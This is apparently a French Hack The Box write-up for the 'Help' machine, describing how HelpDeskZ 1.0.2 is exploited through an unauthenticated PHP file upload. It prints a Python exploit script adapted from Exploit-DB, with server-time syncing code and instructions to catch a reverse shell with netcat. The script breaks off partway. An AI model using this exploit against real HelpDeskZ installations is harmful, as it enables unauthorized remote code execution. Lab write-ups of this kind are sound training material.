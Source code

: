### Helpdeskz - version 1.0.2
On remarque Helpdeskz est installé avec une version vulnérable (potentiellment 2 CVE).
```bash
http://help.htb/support/UPGRADING.txt
--------------
Welcome to HelpDeskZ 1.0.2
==========================

We have made some changes in this new version like:

- SEO-friendly URLs compatibility fixed

- Login with Facebook account (Facebook connect)

- Login with Google account (Google OAuth)
```

### File Upload : PHP reverse shell
On trouve un premier exploit qui ne fonctionne pas, il s'agit d'un file upload permettant d'executer du code php. En realité la machine est bien exploitable, mais l'exploit ne fonctionne pas à cause d'un problème d'horaire. La machine n'est pas à la meme heure que la notre, et l'exploit est basé, en autre, sur l'heure. Il a donc fallu rajotuer dans l'exploit ceci:
```bash
##Getting the Time from the server
response = requests.head('http://10.10.10.121/support/')
serverTime = response.headers['Date']
##setting the time in Epoch
FormatTime = '%a, %d %b %Y %H:%M:%S %Z'
currentTime = int(calendar.timegm(time.strptime(serverTime, FormatTime)))
```
Cela permet de recuperer l'heure exacte défini sur Helpdeskz, c'est important pour la suite de l'exploitation. En cherchant un peu sur github, on trouve justement l'exploit original avec ces quelques lignes de code supplémentaire (je n'ai pas eu besoin de rajouter ce code moi même mais c'était faisable.).

Voici le fichier d'exploitation en Python permettant d'executer le fichier téléchargé sur la machine. Dans un premier temps il a fallu creer un ticket et ajouter une piece jointe avec un fichier php (reverse shell). Il faut, seulement ensuite, executer le code python qui doit retrouver le fichier php et l'executer.
```bash
##!/bin/python
##This is a modified version of https://www.exploit-db.com/raw/40300
##Since the sysntax on time calculation is incorect
'''
The default configuration of this software allows for php files  to be uploaded

Steps to reproduce

Fill out a ticket form and attach a php file, solve the captcha and upload,
(the application will display 'File is not allowed' but the file is still uploaded!!

Set up a netcat session to catch the reverse shell

Run this script and receive a reverse shell back!!!

'''
import hashlib
import time, calendar
import sys
import requests

print 'HelpDesk v1.0.2 - Unauthenticated shell upload'

if len(sys.argv) < 3:
```